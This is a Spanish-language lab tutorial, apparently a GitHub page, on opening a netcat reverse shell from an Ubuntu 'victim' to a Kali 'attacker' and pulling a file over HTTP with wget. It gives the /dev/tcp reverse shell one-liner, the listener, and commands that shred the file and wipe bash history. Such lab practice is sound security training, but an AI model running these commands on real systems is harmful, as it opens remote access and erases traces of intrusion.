



# Reverse Shell con Netcat y transferencia de archivos vía HTTP

## # Reverse Shell con Netcat y transferencia de archivos vía HTTP

## 1. Identificar las IP de ambas máquinas

Para esta ocasión usamos 2 máquinas Linux, una Kali y otra Ubuntu ambas dentro de una red interna llamada **LAB** para permitir la conexión en las dos.


En ambas máquinas, usa el siguiente comando para conocer la dirección IP de la interfaz de red principal en esta ocasión (`eth0` y `enp0s3`):

```bash
ifconfig
```

Como vemos, no nos dio una IP en automático porque la pusimos en modo red interna, por lo que la asignaremos de manera manual a ambas máquinas.


**Nota:** podemos realizar un ping de la una a la otra para verificar su visibilidad en ambas máquina.


---

## 2. Crear el payload de conexión

Puedes generar el comando de conexión desde la página **[RevShells](https://www.revshells.com/)**, que facilita la creación del payload al ingresar los datos necesarios:

- **IP de la máquina atacante**
- **Puerto** (comúnmente `443`)
- **Shell** (`bash -i`)


El resultado será un comando similar a:

```bash
sh -i >& /dev/tcp/10.10.10.2/443 0>&1
```

**Nota:** este comando se ejecuta en la **máquina víctima** para establecer la conexión inversa hacia la máquina atacante.

---

## 3. Escuchar desde la máquina atacante

Antes o después de generar el payload, coloca tu máquina atacante en modo escucha con **Netcat** (como indica en la misma página de RevShells en donde lo creamos):

```bash
nc -nlvp 443
```

---

## 4. Posteriormente ejecutamos el comando desde la máquina víctima

```bash
sh -i >& /dev/tcp/10.10.10.2/443 0>&1
```


Esto permite recibir la conexión cuando el payload se ejecute en la máquina víctima.


---

# Descargando archivo vía HTTP

1. Ahora desde la máquina atacante montamos un servidor en Python con el siguiente comando:

```bash
python3 -m http.server 8080
```

2. Desde la máquina víctima intentamos descargar el archivo con **wget**:

```bash
wget http://10.10.10.2:8080/hola.txt
```



**Nota:** como podemos ver se queda a medias la conexión, esto pasa porque nuestro firewall de nuestra máquina atacante está bloqueando el puerto **8080**.

Por lo que agregaremos una nueva regla que lo permita:


Y posteriormente volvemos a levantar el servidor.

Ahora volveremos a intentarlo pero desde la misma terminal que hicimos la Reverse Shell desde nuestra máquina atacante:



Y como vemos, hemos descargado el archivo a la máquina víctima de manera exitosa.

Posteriormente borramos el archivo y el historial en la máquina víctima (opcional):

```bash
shred -u hola.txt
```

```bash
history -c && rm ~/.bash_history
```



history -c && rm ~/.bash_history

Código


